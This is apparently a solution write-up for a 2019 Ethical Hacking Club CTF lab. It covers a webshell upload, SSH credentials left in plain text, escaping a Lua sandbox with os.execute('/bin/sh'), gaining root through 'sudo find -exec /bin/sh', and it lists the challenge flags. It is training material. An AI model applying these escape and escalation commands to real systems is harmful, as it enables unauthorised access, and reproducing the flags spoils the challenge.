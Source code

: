 # CLUSIR Rhône-Alpes

## Ethical Hacking Club - 2019 . 04 . 11

### Correction

#### Step 1

Connect to http://172.31.254.100

All images are retrieved through an api.

First flag : **${CEH_ApiApiApiApiApi}**

#### Step 2

The upload form is vulnerable to Upload Injection:

When upload a different filetype than image a Flag is added to the response.

2nd flag : **${CEH_ThisIsNotAnImage}**

#### Step 3

Once a webshell has been uploaded,

you can find a `/flag` file

```
> cat /flag
${CEH_LeShellAuxSeychelles}
```

3rd flag: **${CEH_LeShellAuxSeychelles}**

Also, you'll find a `/connection.sh`

containing credentials to an ssh server:

```
> cat /connection.sh
ssh igor@172.31.254.200 -p 22 | echo "Zh1v0yPut1n"
```

#### Step 4

When connecting to the ssh server

a Lua env is popping up.

You've to escape the lua env: 

```lua
os.execute('/bin/sh')
```

There is a flag when escape the python env:

4th flag: **${CEH_LuaCarteSortieDePrison}**

And indicated a second flag at /root/flag

#### Step 5

Use escalation privilege to display 

```bash
$ sudo -l
User igor may run the following commands on af61e9ee9525:
    (root) NOPASSWD: /usr/bin/free
    (root) NOPASSWD: /usr/bin/clear
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /bin/ls
    (root) NOPASSWD: /usr/bin/users
    (root) NOPASSWD: /usr/bin/locale
    (root) NOPASSWD: /bin/mkdir
    (root) NOPASSWD: /usr/bin/who
    (root) NOPASSWD: /usr/bin/w
    (root) NOPASSWD: /usr/bin/arch
$ sudo find -exec /bin/sh \;
# whoami
root
# cat /root/flag
${CEH_LePythonDeLaFournaise}
```

5th flag: **${CEH_LePythonDeLaFournaise}**

---

THE END
